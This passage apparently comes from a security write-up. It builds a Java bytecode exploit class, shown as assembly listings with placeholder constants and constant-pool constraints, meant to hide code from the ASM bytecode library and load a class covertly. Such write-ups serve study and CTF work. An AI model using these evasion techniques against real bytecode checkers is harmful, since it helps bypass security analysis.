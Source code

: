 Note that `code_length` changed from `0000000B` to `00000010` because we added five instructions (two `iconst_2 pop` pairs and one `nop`). Likewise, `attribute_length` changed from `00000015` to `0000001C`.

We also have the following constraints on the constant pool that we'll have to satisfy later (where `**` can be anything):

```
[super_cls] = **05
[sneakyLoad_utf] = 03**
```

Our exploit class is starting to take shape. So far, we have something like this, where "evilstring" is the giant null byte laden string with exact contents to be determined later, and the `-`s in the integer constants are placeholders to be filled in later. Note here that the integer constants contain all the bytes we just worked out _except_ for the tag bytes themselves.

```
.class public Exploit
.super java/lang/Object

.method public woodlelyDoodlely : ()I
    .code stack 2000 locals 10
        ldc_w "evilstring"

        ldc2_w 0x------0001------L
        ldc2_w 0x0000000000020001L
        ldc_w  0x------00
        ldc2_w 0x----0000001C0042L
        ldc2_w 0x00000000102A2B2CL
        ldc2_w 0x57032CBE2DB6----L
        ldc2_w 0x57B0000000000000L

        iconst_0
        ireturn
    .end code
.end method
.end class
```

Now we can add some constants we need at the beginning that we don't care about hiding from ASM and don't need to be in a specific position in the constant pool:

```
.method public woodlelyDoodlely : ()I
    .code stack 2000 locals 10
        ldc_w "(Ljava/lang/String;[BLjava/security/ProtectionDomain;)Ljava/lang/Class;"
        ldc_w "Code"

        ldc_w "evilstring"

        ; Longs here

        iconst_0
        ireturn
    .end code
.end method
```
